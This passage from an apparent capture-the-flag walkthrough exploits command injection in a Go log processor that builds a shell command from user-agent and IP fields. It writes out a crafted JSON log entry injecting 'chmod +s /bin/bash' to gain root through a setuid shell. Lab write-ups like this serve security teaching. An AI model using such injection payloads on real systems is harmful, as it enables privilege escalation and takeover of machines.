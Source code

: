Create the `client.py` and put it in the `gen-py` directory 

<br/> 
<img src="/img/Caption_Screenshots/Pasted image 20240920205713.png" alt="1" style="width:700px; height:auto;">
<br/>

Create a dummy file in the `/tmp` directory in the remote machine and test the script

<br/> 
<img src="/img/Caption_Screenshots/Pasted image 20240920205812.png" alt="1" style="width:700px; height:auto;">
<br/>

<br/> 
<img src="/img/Caption_Screenshots/Pasted image 20240920205824.png" alt="1" style="width:700px; height:auto;">
<br/>

We can see that the Log file was processed successfully.   
Analyzing the `source code`, we can see a potential `Command injection` here 

```go
 logs := fmt.Sprintf("echo 'IP Address: %s, User-Agent: %s, Timestamp: %s' >> output.log", ip, userAgent, timestamp)
            exec.Command{"/bin/sh", "-c", logs}
```

We can inject commands like this 

```bash
 {"user-agent":"'; command_here ; #", "ip":"1.2.3.4"}

```

Creating a malicious Log file containing this command

```bash
 {"user-agent":"'; chmod +s /bin/bash ; #", "ip":"1.2.3.4"}
```

<br/> 
<img src="/img/Caption_Screenshots/Pasted image 20240920210147.png" alt="1" style="width:700px; height:auto;">
<br/>

Change the `client.py` to point to this newly created log file

<br/> 
<img src="/img/Caption_Screenshots/Pasted image 20240920210457.png" alt="1" style="width:700px; height:auto;">
<br/>

Run the Client script and now try to open a `bash shell` and drop the privileges. 

<br/> 
<img src="/img/Caption_Screenshots/Pasted image 20240920210457.png" alt="1" style="width:700px; height:auto;">
<br/>

The machine was pawned successfully 
